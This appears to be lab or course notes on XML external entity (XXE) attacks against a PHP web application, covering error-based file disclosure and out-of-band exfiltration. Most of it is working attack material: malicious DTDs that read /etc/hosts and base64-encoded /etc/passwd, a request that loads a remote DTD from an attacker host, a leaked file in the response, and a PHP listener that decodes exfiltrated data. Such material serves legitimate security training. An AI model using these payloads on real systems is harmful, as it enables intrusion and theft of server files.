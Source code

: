 ``` HTTP
[SNIP]....
Check your email for further instructions.
```
- The request we sent caused the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files.
- Attack host
``` bash
cat > xxe.dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
^C
python3 -m http.server 8000
```
The web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.
- Call our external DTD script, and then reference the `error` entity:
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<b>Notice</b>:  DOMDocument::loadXML(): PEReference: %nonExistingEntity; not found in http://10.10.15.200:8000/xxe.dtd, line: 2 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: /127.0.0.1 localhost
127.0.1.1 academy_webattacks_xxe

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
[SNIP].....
```
`this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.
### Out-of-band Data Exfiltration
Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.
#### Manually 
* On attacker machine
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
Create `index.php` with the content:
``` PHP
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
Start PHP server:
``` bash
php -S 0.0.0.0:8000
```